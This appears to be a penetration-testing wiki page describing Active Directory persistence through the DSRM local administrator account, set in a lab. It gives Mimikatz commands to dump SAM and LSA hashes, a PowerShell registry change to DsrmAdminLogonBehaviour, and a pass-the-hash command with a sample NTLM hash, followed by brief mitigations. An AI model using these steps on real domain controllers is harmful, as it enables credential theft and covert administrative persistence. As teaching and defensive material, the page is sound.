 # DSRM

## Description

Directory Services Restore Mode (DSRM) is a safe boot mode which allows emergency access to the Domain Controller for database repairs and recovery. When Active Directory is initially setup the Administrator will be prompted for a password to use for DSRM if ever needed.

`Mimikatz` can be leveraged here to extract the local administrator (DSRM) hash and after making some registry changes, the hash and account can be used for persistence in the Domain.

{% hint style="info" %}
DSRM creates a local administrator account on the Domain Controller that is different from the Domain administrator account.
{% endhint %}

## Exploitation

The following lab consists of the following fully patched systems

* Windows Server 2019 - Domain Controller
* Windows 21H1 - Endpoint

This scenario takes places in the late stage kill chain, where the Domain Administrator's account has been compromised and the adversary has successfully loaded Mimikatz on both the Domain Controller and an endpoint.

### Domain Controller

Over on the Domain Controller the following commands have been executed using Mimikatz.

{% tabs %}
{% tab title="Mimikatz" %}
```bash
# Elevate to SYSTEM
privilege::debug
token::elevate
```

```bash
# Dump local administrator hash
lsadump::sam
```

```bash
# Dump Domain Administrator hash
lsadump::lsa /patch
```

We can see below where the Administrator hashes for the local (SAM) and Domain (LSA) accounts are different.

![](../../../.gitbook/assets/Screenshot\_20210916\_104114.png)
{% endtab %}
{% endtabs %}

Now, that the DSRM local administrator hash have been obtained, a registry key setting will need to be altered or created on the Domain Controller to enable persistence.

```yaml
# Check if key exists
Get-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour'

# If key exists and value is not set to 2
Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour' -Value 2 -Verbose

# If key does not exist then create it
New-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour' -Value 2 -PropertyType DWORD -Verbose
```

## Endpoint

Over on a client endpoint on the network we have Mimikatz running with Domain Administrator privileges.&#x20;

```bash
privilege::debug
sekurlsa::pth /user:Administrator /domain:security.local /ntlm:0c564715b06bb035a87e91b9f71488a3
```

After this has been executed we see as per the image below a secondary command shell has been opened with the privileges of the local administrator of the Domain Controller on the endpoint Workstation-01.

![](<../../../.gitbook/assets/image (2014).png>)

## Mitigation's

* Regularly change DSRM passwords on all Domain Controllers that run DSRM. Ensuring the passwords are different across controllers.
* Monitor for the registry key `DsrmAdminLogonBehaviour` in `HKLM:\System\CurrentControlSet\Control\Lsa\` being set to the value of 1 or 2.

## References

{% embed url="https://adsecurity.org/?p=1785" %}
